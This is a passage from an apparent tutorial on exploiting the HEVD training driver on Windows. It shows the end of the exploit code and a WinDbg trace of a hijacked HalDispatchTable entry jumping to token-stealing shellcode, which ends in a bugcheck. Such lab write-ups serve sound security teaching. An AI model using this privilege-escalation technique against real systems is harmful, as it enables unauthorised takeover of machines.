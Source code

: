 ```cpp

	VirtualFree(ShellcodeAddr, 150, MEM_RELEASE);
	CloseHandle(hHEVD);
	return 0;
}
```

But, as we pointed out at the beginning of this section...
```WinDbg
6: kd> g
Breakpoint 0 hit
nt!KeQueryIntervalProfile:
fffff801`10bb1410 4883ec48        sub     rsp,48h
0: kd> t
nt!KeQueryIntervalProfile+0x4:
fffff801`10bb1414 83f901          cmp     ecx,1
0: kd> 
nt!KeQueryIntervalProfile+0x7:
fffff801`10bb1417 7430            je      nt!KeQueryIntervalProfile+0x39 (fffff801`10bb1449)
0: kd> 
nt!KeQueryIntervalProfile+0x9:
fffff801`10bb1419 ba18000000      mov     edx,18h
0: kd> 
nt!KeQueryIntervalProfile+0xe:
fffff801`10bb141e 894c2420        mov     dword ptr [rsp+20h],ecx
0: kd> 
nt!KeQueryIntervalProfile+0x12:
fffff801`10bb1422 4c8d4c2450      lea     r9,[rsp+50h]
0: kd> 
nt!KeQueryIntervalProfile+0x17:
fffff801`10bb1427 4c8d442420      lea     r8,[rsp+20h]
0: kd> 
nt!KeQueryIntervalProfile+0x1c:
fffff801`10bb142c 8d4ae9          lea     ecx,[rdx-17h]
0: kd> 
nt!KeQueryIntervalProfile+0x1f:
fffff801`10bb142f ff15a383ddff    call    qword ptr [nt!HalDispatchTable+0x8 (fffff801`109897d8)]
0: kd> dq nt!HalDispatchTable+0x8 L1
fffff801`109897d8  00000003`2b2f0000
0: kd> u 00000003`2b2f0000
00000003`2b2f0000 4831c0          xor     rax,rax
00000003`2b2f0003 4d31c9          xor     r9,r9
00000003`2b2f0006 4831c9          xor     rcx,rcx
00000003`2b2f0009 65488b042588010000 mov   rax,qword ptr gs:[188h]
00000003`2b2f0012 488b8020020000  mov     rax,qword ptr [rax+220h]
00000003`2b2f0019 4989c1          mov     r9,rax
00000003`2b2f001c 4d8b89f0020000  mov     r9,qword ptr [r9+2F0h]
00000003`2b2f0023 4981e9f0020000  sub     r9,2F0h
0: kd> t
00000003`2b2f0000 4831c0          xor     rax,rax
0: kd> 
KDTARGET: Refreshing KD connection

*** Fatal System Error: 0x000000fc
                       (0x000000032B2F0000,0x22B000013DBB8867,0xFFFFD001CB0948E0,0x0000000080000005)


A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.

nt!DbgBreakPointWithStatus:
```